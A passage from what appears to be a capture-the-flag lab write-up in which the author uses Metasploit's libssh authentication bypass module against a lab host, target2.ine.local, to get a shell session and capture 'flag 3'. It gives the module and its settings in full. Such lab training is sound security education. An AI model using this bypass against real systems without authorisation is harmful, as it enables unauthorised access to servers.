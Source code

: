 According to the flag, we have to use the libssh_auth_bypass module to gain access to the target and obtain the **flag 3**.

# 3\. Exploit SSH

For this purpose, I’m going to use Metasploit. Search for the ‘libssh’ module as follows.

<img alt="" class="bh er pi c jop-noMdConv" width="700" height="177" loading="lazy" role="presentation" src="resources/1_iZDl4Wl--Wk5ZjaPXJ1q2w.png" style="box-sizing: inherit; vertical-align: middle; background-color: rgb(255, 255, 255); width: 680px; max-width: 100%; height: auto;">

Use the following module to exploit the vulnerability on target 2.

```
use auxiliary/scanner/ssh/libssh_auth_bypass
set RHOSTS target2.ine.local
set SPAWN_PTY true
```

When you configure the **libssh** module on Metasploit as above, you will be able to run without any errors as follows.

<img alt="" class="bh er pi c jop-noMdConv" width="700" height="95" loading="lazy" role="presentation" src="resources/1_LjEVvvwCCXKzlBV-Wd-i2Q.png" style="box-sizing: inherit; vertical-align: middle; background-color: rgb(255, 255, 255); width: 680px; max-width: 100%; height: auto;">

Use the **sessions** command to obtain the running sessions.

```
sessions
```

<img alt="" class="bh er pi c jop-noMdConv" width="700" height="108" loading="lazy" role="presentation" src="resources/1_vlgzOJxGsHiSrUc2Kr20oQ.png" style="box-sizing: inherit; vertical-align: middle; background-color: rgb(255, 255, 255); width: 680px; max-width: 100%; height: auto;">
